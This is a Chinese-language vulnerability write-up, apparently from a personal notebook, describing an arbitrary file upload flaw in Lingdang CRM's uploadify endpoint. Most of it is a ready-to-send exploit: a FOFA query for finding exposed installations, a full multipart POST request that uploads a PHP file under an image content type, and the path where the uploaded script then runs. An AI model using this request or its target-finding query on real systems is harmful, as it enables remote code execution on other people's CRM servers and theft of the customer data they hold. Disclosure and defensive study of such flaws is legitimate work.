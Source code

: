# 灵当crm uploadify存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">灵当CRM（Customer Relationship Management，客户关系管理）是一款面向中小企业的客户关系管理软件，旨在帮助企业更好地管理客户信息、销售流程、市场营销和服务支持等方面的工作。灵当CRM提供了一系列工具和功能，帮助企业在销售、市场和服务部门之间实现高效协作，提高客户满意度和业务效率。灵当crm uploadify存在任意文件上传漏洞。</font>

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/89rFkHy0Jze9KFbC/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-481570.png)

# 四、漏洞复现
```java
POST /crm/uploaddify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Type: multipart/form-data; boundary=---------------------------45250802924973458471174811279
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 10338

-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="Filedata"; filename="1.php"
Content-Type: images/cat_icon

<?php phpinfo();?>
-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="myatt_moduel"

1
-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="myatt_id";

1
-----------------------------45250802924973458471174811279
```

![1725194375782-5456a1c1-b949-4db3-ba8f-a06824257440.png](./img/89rFkHy0Jze9KFbC/1725194375782-5456a1c1-b949-4db3-ba8f-a06824257440-425903.png)

上传路径

```java
/crm/storage/1/1/1.php
```

![1725194400326-59fd1c75-9f0b-4a2f-bfea-a6064b740ba7.png](./img/89rFkHy0Jze9KFbC/1725194400326-59fd1c75-9f0b-4a2f-bfea-a6064b740ba7-647080.png)



> 更新: 2024-10-21 11:49:38  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/khc5fd9mcxhktk2y>